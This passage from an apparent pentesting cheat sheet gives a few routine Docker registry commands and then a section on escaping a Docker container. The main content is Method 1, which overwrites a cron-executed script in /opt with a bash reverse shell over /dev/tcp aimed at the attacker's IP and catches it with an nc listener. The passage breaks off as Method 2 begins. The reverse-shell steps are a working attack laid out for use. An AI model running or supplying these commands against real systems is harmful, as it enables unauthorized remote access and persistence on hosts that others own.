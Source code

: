 ```sh
# Login
docker login -u <your-username>

# Tag a new image
docker tag <source-image> <your-username>/<target-image>

# Push
docker push <your-username>/<target-image>
```

<br />

## Escape from a Docker Container

### Method 1. Reverse Shell over Cron Jobs

1. **Check if there is a file which runs in cron jobs. The file may be under /opt so check.**

    The file may be under /opt, so check the directory.

    ```sh
    ls -al /opt
    ```

    Assume that the **/opt/example/example.sh** runs regularly by cron jobs.

2. **Add a reverse shell payload to the script file**

    Inject the reverse shell payload to escape from the container shell.

    ```sh
    echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<local-ip>/4444 0>&1' > /opt/example/example.sh
    # or
    printf '#!/bin/bash\nbash -i >& /dev/tcp/<local-ip>/4444 0>&1' > /opt/example/example.sh
    ```

3. **Open listner for getting a shell**

    In local machine, open listener and wait until running the script by cron jobs.

    ```sh
    # In attacker machine, wait for the cron job execute the reverse shell
    nc -lvnp 4444
    ```

    We should get a shell in local machine after a while.

### Method 2. Run a Vulnerable Image

According to [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker#compromising), we can escape a docker container with the vulnerable image.  
Execute the following command in the target machine where a docker container is running..
